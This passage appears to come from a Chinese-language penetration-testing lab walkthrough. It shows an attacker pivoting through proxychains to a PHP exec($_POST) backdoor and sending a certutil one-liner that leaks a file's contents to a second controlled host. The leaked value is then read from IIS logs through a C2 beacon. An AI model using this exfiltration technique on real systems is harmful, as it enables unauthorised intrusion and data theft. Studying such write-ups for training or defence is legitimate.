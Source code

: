 > + 接下来只能尝试使用`certutil`请求Windows Server 2008的开放的80端口（由于Windows 7不出网Windows Sever 2008刚好开放了80端口我们又有Windows Server 2008的权限，我们可以通过查看Windows Server 2008的IIS请求日志）。
> 
> ```bash
> ┌──(kali㉿kali)-[~/Downloads]
> └─$ proxychains4 curl 192.168.153.128 -d "shell=for /f %i in ('type c:\phpstudy_pro\COM\a.txt') do certutil -urlcache  -split -f http://192.168.153.130/aaa/%i"
> [proxychains] config file found: /etc/proxychains4.conf
> [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
> [proxychains] DLL init: proxychains-ng 4.16
> [proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
> <code><span style="color: #000000">
> <br /></span><span style="color: #0000BB">exec</span><span style="color: #007700">(</span><span style="color: #0000BB">$_POST</span><span style="color: #007<br /></span><span style="color: #0000BB">?></span>小子留下了一个后门，读一下c:\phpstudy_pro\COM\a.txt吧里面有好东西
> </span>
> </code>
> ```
> 
> + 查看IIS请求日志（日志文件里面的数据可能会存在延迟）。
> 
> ```bash
> beacon> shell dir C:\inetpub\logs\LogFiles\W3SVC1\
> [*] Tasked beacon to run: dir C:\inetpub\logs\LogFiles\W3SVC1\
> [+] host called home, sent: 67 bytes
> [+] received output:
>  驱动器 C 中的卷没有标签。
>  卷的序列号是 DCD2-557A
> 
>  C:\inetpub\logs\LogFiles\W3SVC1 的目录
> 
> 2022/07/02  12:48    <DIR>          .
> 2022/07/02  12:48    <DIR>          ..
> 2022/03/29  10:21               999 u_ex220329.log
> 2022/07/02  18:10            16,728 u_ex220702.log
>                2 个文件         17,727 字节
>                2 个目录 24,780,013,568 可用字节
> 
> beacon> shell type C:\inetpub\logs\LogFiles\W3SVC1\u_ex220702.log
> [*] Tasked beacon to run: type C:\inetpub\logs\LogFiles\W3SVC1\u_ex220702.log
> [+] host called home, sent: 82 bytes
> [+] received output:
> #Software: Microsoft Internet Information Services 7.5
> #Version: 1.0
> #Date: 2022-07-02 04:48:37
> #Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) sc-status sc-substatus sc-win32-status time-taken
> ...
> 2022-07-02 10:18:01 192.168.153.130 GET /aaa/dsuijaddjsfvos.php - 80 - 192.168.153.128 CertUtil+URL+Agent 404 0 64 15
> ```
> 
> > 上方教程参考于：[命令执行漏洞[无]回显[不]出网利用技巧](https://cn-sec.com/archives/1129108.html)
> 
> + `dsuijaddjsfvos.php`该就是``c:\phpstudy_pro\COM\a.txt``文件的内容。我们尝试使用`curl`访问一下`dsuijaddjsfvos.php`。
> 
> ```bash
> ┌──(kali㉿kali)-[~/Downloads]
> └─$ proxychains4 curl 192.168.153.128/dsuijaddjsfvos.php
> [proxychains] config file found: /etc/proxychains4.conf
> [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
> [proxychains] DLL init: proxychains-ng 4.16
> [proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
> <code><span style="color: #000000">